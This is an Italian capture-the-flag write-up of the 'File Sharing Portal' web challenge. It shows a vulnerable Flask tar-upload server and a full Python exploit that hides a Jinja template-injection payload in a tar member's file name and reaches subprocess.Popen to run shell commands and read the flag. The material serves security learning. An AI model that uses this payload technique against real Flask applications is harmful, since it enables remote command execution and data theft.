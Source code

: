 +++
title = 'File Sharing Portal'
tags = [
  "Web",
  "Python",
  "Template Injection"
]
date = 2024-08-06T11:27:07+02:00
draft = true
+++

# File Sharing Portal

**Descrizione**: Benvenuti nel portale di condivisione dei file! Supportiamo solo file tar!

**Autori**: NoobMaster + NoobHacker

**Punti**: 478

**Soluzioni**: 119

## Introduction

Il ctf ha una struttura molto semplice: abbiamo un form in cui ci viene chiesto di inserire un file [tar](https://en.wikipedia.org/wiki/Tar_(computing)); una volta inserito il file tar, questo viene decompresso e ci viene mostrato il `nome` dei file che contiene; cliccando sui diversi file, possiamo leggerne il contenuto.

## Source

**Il sorgente ha commenti aggiunti in seguito per consentire una migliore comprensione del codice nei writeup**

```python
# filename: server.py

#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    # Questa funzione si occupa principalmente di caricare il file tar nel file system del server.
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar': # Verificare che il file passato sia effettivamente un file tar
            return render_template_string("<p> We only support tar files as of right now!</p>") # Altrimenti, viene visualizzato un messaggio di errore
        name = sha256(os.urandom(16)).digest().hex() # Crea un nome casuale che verrà utilizzato per denominare il tar e la cartella nel file system del server.
        os.makedirs(f"./uploads/{name}", exist_ok=True) # Crea la directory
        file.save(f"./uploads/{name}/{name}.tar") # Salva il file tar
        try:
            # Estrae il file tar
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    # Questa funzione visualizza i file contenuti nel file .tar
    if not all([i in "abcdef1234567890" for i in name]): # Controllare che il nome del file sia in esadecimale, per evitare qualsiasi tipo di input dannoso. 
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}") # Elenca tutti i file presenti nella cartella precedentemente creata 
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Rimuove il file tar dall'elenco
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>' # Mostra tramite modelli tutti i nomi dei file
       # except:
    return render_template_string(out) # Renderizzare il modello con la funzione render_template_string

@app.route('/read/<name>/<file>')
def read(name,file):
    # La funzione mostra il contenuto del singolo file
    if (not all([i in "abcdef1234567890" for i in name])): # Controllare che il nome del file sia in esadecimale, per evitare qualsiasi tipo di input dannoso. 
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):  # Altri controlli per evitare l'errore di percorso
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}') # Apre il file
    data = f.read()
    f.close()
    return data # Ritorna il contenuto del file

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)


```

Si può quindi notare che ci sono diversi controlli sui parametri e, in un primo momento, si potrebbe pensare che il codice sia sicuro al 100%.

## Solution

La prima cosa che ci è venuta in mente è stata quella di creare un [link simbolico](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767) per accedere alla flag, e in effetti questo funziona (provate con server.py), il problema è che il nome del file della flag è sconosciuto e questo non ci permette di creare un link simbolico valido.

Una volta capito questo, abbiamo fatto un'analisi approfondita del codice e siamo giunti alla conclusione che l'unica cosa che non veniva controllata era il nome del file tar scompattato, consentendoci di inserire qualsiasi cosa. Combinando questo con la funzione `render_template_string` (una funzione vulnerabile di flask), è possibile eseguire una [template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection).

```python
# filename: exploit.py

import requests
import os
import tarfile
from bs4 import BeautifulSoup

url = 'http://redacted.challs.n00bzunit3d.xyz:8080/'


def create_tar(tar_name, file):
    with tarfile.open(tar_name, 'w') as tar:
        tar.add(file, arcname=os.path.basename(file))
    print(f'Tar file created: {tar_name}')


def create_payload(payload):
    with open(payload, 'w') as f:
        f.write('Remember to byte the cookies')

    create_tar('exploit.tar', payload)
    print(f'Payload created: {payload}')


def get_url_view(text):
    soup = BeautifulSoup(text, 'html5lib')
    return [a['href'] for a in soup.find_all('a', href=True)][0]


def leak_subprocess_index():
    payload = "{{int.__class__.__base__.__subclasses__()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)
    text = r.text[r.text.index('[')+1:]

    list_classes = text.split(',')

    for i, c in enumerate(list_classes):
        if 'subprocess.Popen' in c:
            print(f'Index subprocess.Popen: {i}')
            return str(i)


def get_flag(index):
    payload = "{{int.__class__.__base__.__subclasses__()[" + \
        index + "]('cat *', shell=True, stdout=-1).communicate()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)

    flag = r.text[r.text.index('n00bz{'):r.text.index('}')+1]
    print(f'Flag: {flag}')


def main():
    subprocess_index = leak_subprocess_index()
    get_flag(subprocess_index)


if __name__ == '__main__':
    main()


```

```stdout
flag: n00bz{n3v3r_7rus71ng_t4r_4g41n!_b3506983087e}
```

<p align='right'>Author: akiidjk </p>
